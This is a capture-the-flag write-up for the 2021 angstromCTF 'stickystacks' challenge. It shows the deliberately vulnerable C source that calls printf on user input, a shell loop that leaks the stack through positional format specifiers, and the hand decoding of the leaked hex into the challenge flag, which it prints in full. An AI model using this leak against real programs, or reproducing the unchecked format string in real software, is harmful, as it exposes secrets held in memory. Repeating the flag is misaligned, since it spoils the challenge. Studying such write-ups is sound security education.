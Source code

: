 
# stickystacks

## Description

```
I made a program that holds a lot of secrets... maybe even a flag!

Source

Connect with nc shell.actf.co 21820, or visit /problems/2021/stickystacks on the shell server.

Author: JoshDaBosh
```

## Analysis

Check out `stickystacks.c`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


typedef struct Secrets {
    char secret1[50];
    char password[50];
    char birthday[50];
    char ssn[50];
    char flag[128];
} Secrets;


int vuln(){
    char name[7];

    Secrets boshsecrets = {
        .secret1 = "CTFs are fun!",
        .password= "password123",
        .birthday = "1/1/1970",
        .ssn = "123-456-7890",
    };


    FILE *f = fopen("flag.txt","r");
    if (!f) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(&(boshsecrets.flag), 128, f);


    puts("Name: ");

    fgets(name, 6, stdin);


    printf("Welcome, ");
    printf(name);
    printf("\n");

    return 0;
}


int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    vuln();

    return 0;
}
```

This reads the flag onto the stack but never prints it.

We can't overflow name, but there is a format string vuln here:

```
    printf(name);
```

This can be used to leak what's on the stack. For example:

```
team8838@actf:/problems/2021/stickystacks$ perl -e 'print "%1\$p"' | ./stickystacks Name: 
Welcome, 0x7ffcaee9b7a0
```

## Solution

Dump out enough of the stack to ready `boshsecrets.flag`.

```
team8838@actf:/problems/2021/stickystacks$ for i in `seq 1 50`; do perl -e 'print "%${ARGV[0]}\$p"' $i | ./stickystacks | grep Welcome | awk '{print $2}'; done
0x7ffd0b9b2f40
(nil)
(nil)
0x9
0x9
(nil)
0x1efe2a0
0x6572612073465443
0x216e756620
(nil)
(nil)
(nil)
(nil)
0x6f77737361700000
0x3332316472
(nil)
(nil)
(nil)
(nil)
0x2f312f3100000000
0x30373931
(nil)
(nil)
(nil)
(nil)
0x3231000000000000
0x38372d3635342d33
0x3039
(nil)
(nil)
(nil)
(nil)
0x6c65777b66746361
0x61625f6d27695f6c
0x6c625f6e695f6b63
0x5f7365795f6b6361
0x6b6361625f6d2769
0x5f6568745f6e695f
0x65625f6b63617473
0x3439323135623963
0x3438363737646165
0xa7d333935663161
(nil)
(nil)
(nil)
(nil)
(nil)
(nil)
0x401420
0x7024303525f0
```

This last big string is our flag. The first line has `7b` (`{`) and the last line has `7d` (`}`) and `0a` (`\n`).

```
0x6c65777b66746361
0x61625f6d27695f6c
0x6c625f6e695f6b63
0x5f7365795f6b6361
0x6b6361625f6d2769
0x5f6568745f6e695f
0x65625f6b63617473
0x3439323135623963
0x3438363737646165
0xa7d333935663161
```

I'm sure there's a better way, but I just reversed each line by hand and added a space between each byte.

```
61 63 74 66 7b 77 65 6c
6c 5f 69 27 6d 5f 62 61
63 6b 5f 69 6e 5f 62 6c
61 63 6b 5f 79 65 73 5f
69 27 6d 5f 62 61 63 6b
5f 69 6e 5f 74 68 65 5f
73 74 61 63 6b 5f 62 65
63 39 62 35 31 32 39 34
65 61 64 37 37 36 38 34
61 31 66 35 39 33 7d 0a
```

Then converted that to ASCII and got:

```
actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}
```

